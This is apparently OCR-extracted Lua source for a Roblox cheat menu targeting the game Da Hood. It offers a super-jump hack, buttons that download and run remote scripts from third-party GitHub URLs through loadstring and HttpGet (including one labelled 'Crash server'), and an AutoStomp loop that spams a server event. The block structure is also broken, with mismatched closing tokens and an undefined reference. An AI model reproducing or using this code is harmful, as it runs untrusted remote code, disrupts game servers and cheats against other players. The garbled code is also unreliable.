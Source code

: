 Player = game:GetService'Players'.LocalPlayer;
	UIS = game:GetService'UserInputService';
	
	_G.JumpHeight = 50;
	
	function Action(Object, Function) if Object ~= nil then Function(Object); end end
	
	UIS.InputBegan:connect(function(UserInput)
	    if UserInput.UserInputType == Enum.UserInputType.Keyboard and UserInput.KeyCode == Enum.KeyCode.Space then
	        Action(Player.Character.Humanoid, function(self)
	            if self:GetState() == Enum.HumanoidStateType.Jumping or self:GetState() == Enum.HumanoidStateType.Freefall then
	                Action(self.Parent.HumanoidRootPart, function(self)
	                    self.Velocity = Vector3.new(0, _G.JumpHeight, 0);
	              		end)
	           		end
	        	end)
	   		 end
		end)
    end)

	MainSection:NewButton("Auto drop", "Auto drops cash", function()
		loadstring(game:HttpGet(("https://raw.githubusercontent.com/Raycodex/Exploiting/main/Roblox/Da%20Hood%20Auto%20Cash%20Drop"), true))()
end)

	MainSection:NewButton("AutoFarm", "Crashes the server", function()
		loadstring(game:HttpGet("https://raw.githubusercontent.com/Kadennnnnnnn/Autofarm/main/README.md", true))()
	end)

	MainSection:NewButton("Crash server", "Crashes the server", function()
		loadstring(game:HttpGet("https://raw.githubusercontent.com/racemodex/my-scripts/master/dahoodcrash", true))()
	end)

	MainSection:NewToggle("AutoStomp", "Allows you to AutoStomp", function(v)
    wait(0) local A_1 = "[Doge Hub] AutoStomp on/off" local A_2 = "All" local Event = game:GetService("ReplicatedStorage").DefaultChatSystemChatEvents.SayMessageRequest Event:FireServer(A_1, A_2) 
    getgenv().autostomp = v
        while true do
            if not getgenv().autostomp then return end
local script = Instance.new('LocalScript', Auto_Stomp)

	plr = game:GetService('Players').LocalPlayer
	
	repeat wait() until plr.Character:FindFirstChild('Humanoid') or plr.Character:FindFirstChild('xxx')
		hum = plr.Character:FindFirstChild('Humanoid')
			while wait() do
				if plr.Character:FindFirstChild('Humanoid') or plr.Character:FindFirstChild('xxx') then
					wait(.1)
							game.ReplicatedStorage.MainEvent:FireServer("Stomp")
						end
				break
			end
            wait(0)
        end
    end)
